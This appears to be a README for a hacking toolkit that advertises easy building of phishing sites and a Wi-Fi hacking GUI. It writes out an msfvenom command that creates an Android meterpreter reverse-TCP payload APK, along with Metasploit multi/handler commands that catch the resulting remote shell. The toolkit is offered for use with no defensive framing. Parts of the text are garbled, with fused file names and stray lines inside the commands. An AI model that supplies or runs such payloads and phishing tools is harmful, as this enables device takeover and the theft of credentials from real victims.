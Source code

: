 # AVITOOLTION-Phishing
"Hello my friends, this tool will help you design a phishing site easily without needing much understanding or programming. There are also many features to discover. You should download the tool, and as you do, I thank you very much.

# Payload PDF.py #
" msfvenom -p android/meterpreter/reverse_tcp LHOST=your_IP LPORT=your_PORT -o payload.apk "
" Payload PDF.py "
" use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST your_IPOpen-XAI.py
set LPORT your_PORT
exploit "

# Open-XAI.py #

" python3 chat_ai.py "

# Phishing.py #

" python3 Phishing.py "

# Tkinter-haking-wifi.py #

arabic :
هذا الملف الرمحي لبايثون الذي يحتوي على واجهة جيدة لتسهيل عملية الاختراق للوايفاي على المستعمل،وشكرا
English :
This is a Python spear file that contains a good interface to facilitate the process of hacking Wi-Fi for the user. Thank you.






